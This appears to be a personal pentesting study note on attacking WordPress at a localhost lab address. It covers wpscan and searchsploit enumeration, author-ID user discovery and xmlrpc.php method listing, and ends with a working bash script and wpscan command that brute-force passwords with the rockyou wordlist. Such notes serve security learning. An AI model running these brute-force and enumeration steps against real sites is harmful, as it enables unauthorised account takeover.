 
# Enum user
You can use searchsploit
````bash
searchsploit wordpress user enumeration
````

To examinate or see the exploit you can use this
````bash
searchsploit -x ID
````

## WPSCAN Automatically
help panel
````bash
wpscan -hh
````


````bash
wpscan --url http://127.0.0.1:31337 -e vp,u
````
`-e` --> To enum plugins, user...
`vp` --> vulnerable plugins
`-u` --> to enum users

### search vulnerabilities
You need a api token that obtain from https://wpscan.com/profile (You need a account)
The command to search vuln is this
````bash
wpscan --url http://127.0.0.1:31337 -e vp,u --api-token="YOURMADAFACKINGTOKEN"
````

## Manual

### Enum users
````bash
https://wordpress/?author=1
````
### Enum plugins (Directory listening)
Directory listening means that you can see the directory available
If you go to this path you sometimes you can see directories:
````bash
localhost:31337/wp-content/plugins
````

### Source code
````bash
curl -s -X GET "http://127.0.0.1:31337" | grep plugins
````

If you want to see this better you can use a regular expression with grep:

````bash
curl -s -X GET "http://127.0.0.1:31337" | grep -oP "plugins/\K[^/]+" | sort -u
````
`\K` -->Don't show the matches regex before the \\K
`[^/]+` --> Show all that are not a reverse slash one or more times
`sort -u` --> Show unique lines

### XMLRPC
If xmlrpc.php exists you can see 

In the explorer say that only accept requests by post, you can do this:
````bash
curl -s X POST "wordpress/xmlrpc.php"
````

This respond that well not formed.
This wait a structure in XML.

To see what you can do it when xmlrpc you can search abusing xmlrpc wordpress
https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/

To see all the method you need to create a XML file with this content:
````xml
<?xml version="1.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
````

To do a request with the file you can use this command:
````bash
curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@file.xml
````

`-d@path` --> To indicate the **data**

The method used to check valid credentials is ==wp.getUserBlogs==

You can bruteforce with this structure in XML
````xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{your username\}\}</value></param> 
<param><value>\{\{your password\}\}</value></param> 
</params> 
</methodCall>
````

You have to change the username or password depending on what you are looking for
**This method don't allow to enum user that don't have a valid password**

And you return to use the curl command but with this file:
````bash
curl -s -X POST "http://localhost:31337/xmlrpc.php" -d@newFile.xml
````

If is wrong they return a XML that say "Incorrect username or password"

We can do a script in bash to bruteforce this:
````bash
#!/bin/bash

ctrl_c(){
    echo "[*] Saliendo del programa [*]"
    tput cnorm
    exit 1
}

# Ctrl_c
trap ctrl_c SIGINT

# Hidden cursor
tput civis

createXML(){
    password=$1

    xmlFile="""
<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>sergiky</value></param>
<param><value>$password</value></param>
</params>
</methodCall>
"""

    echo $xmlFile > file.xml

    response=$(curl -s -X POST "http://127.0.0.1:31337/xmlrpc.php" -d@file.xml)
    if [[ ! "$(echo "$response" | grep 'Incorrect username or password')" ]]; then
        echo "[+] La contraseña para el usuario sergiky es: $password"
        tput cnorm
        exit 0
    fi
}

cat /usr/share/wordlists/rockyou.txt | while read password; do
  createXML $password
done
````

### BruteForce with WPScan
````bash
wpscan --url http://127.0.0.1 -U sergiky -P /usr/share/wordlists/rockyou.txt
````


----

# Tags

#contentManager #tools #wordpress #wpscan #xmlrpc #enumUser

-----